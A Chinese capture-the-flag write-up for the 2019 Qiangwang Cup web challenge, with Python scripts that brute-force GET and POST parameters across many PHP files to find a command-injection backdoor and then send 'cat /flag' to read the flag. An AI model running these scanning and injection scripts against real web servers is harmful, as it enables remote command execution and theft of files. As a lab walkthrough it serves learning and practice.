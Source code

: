 # \[强网杯 2019]高明的黑客

## \[强网杯 2019]高明的黑客

## 考点

* 爆破脚本书写
* Python正则表达式
* Python多线程

## wp

www.tar.gz下载源码，使用notepad++在src目录中查找system，还是有很多

![](<../.gitbook/assets/image (29) (1) (1) (1).png>)

只能用脚本多线程跑

```php
import os
import re
import requests
import threading

lock = threading.Lock()
path = 'src/'
files = os.listdir(path)
url = 'http://localhost:8888/intru/src/'

def send_req(file):
    f = open('src/'+file)
    ff = f.read()
    lock.acquire()
    f.close()
    lock.release()
    get_pattern = re.compile(r"\$_GET\['\w+'\]")
    get_res = re.findall(get_pattern,ff)
    get_res = list(set(get_res))
    post_pattern = re.compile(r"\$_POST\['\w+'\]")
    post_res = re.findall(post_pattern,ff)
    post_res = list(set(post_res))
    url_test = url + file + '?' + ('=echo "peri0d"&'.join(get_res)).replace("$_GET['",'').replace("']",'') + '=echo "peri0d"'
    data = {}
    for i in post_res:
        data[i[8:-2]] = 'echo "peri0d"'
    response = requests.post(url_test, data=data)
    print(response.text)
    # print(url_test)
    # print(data)
    if "peri0d" in response.text:
        print(file)
        return file
    

#send_req('xk0SzyKwfzw.php')
l = []
for i in files:
    t = threading.Thread(target=send_req, args=(i,))
    t.start()
    l.append(t)
for i in l:
    i.join()
```

得到结果xk0SzyKwfzw.php

![](<../.gitbook/assets/image (16) (1).png>)

再写一个`get_flag`函数，复制粘贴前面的代码，改一下地址和shell

```python
def get_flag(file):
    f = open('src/'+file)
    ff = f.read()
    f.close()
    
    shell = 'cat /flag'
    get_pattern = re.compile(r"\$_GET\['\w+'\]")
    get_res = re.findall(get_pattern,ff)
    get_res = list(set(get_res))
    post_pattern = re.compile(r"\$_POST\['\w+'\]")
    post_res = re.findall(post_pattern,ff)
    post_res = list(set(post_res))
    url_test = 'http://70b853eb-51ee-40c5-a69c-ab1ec94682a8.node4.buuoj.cn:81/' + file + '?' + (f'={shell}&'.join(get_res)).replace("$_GET['",'').replace("']",'') + f'={shell}'
    data = {}
    for i in post_res:
        data[i[8:-2]] = shell
    response = requests.post(url_test, data=data)
    # print(url_test)
    # print(data)
    if "flag" in response.text:
        print(response.text)
        return file
get_flag('xk0SzyKwfzw.php')
```

![](<../.gitbook/assets/image (33) (1) (1) (1) (1) (1).png>)
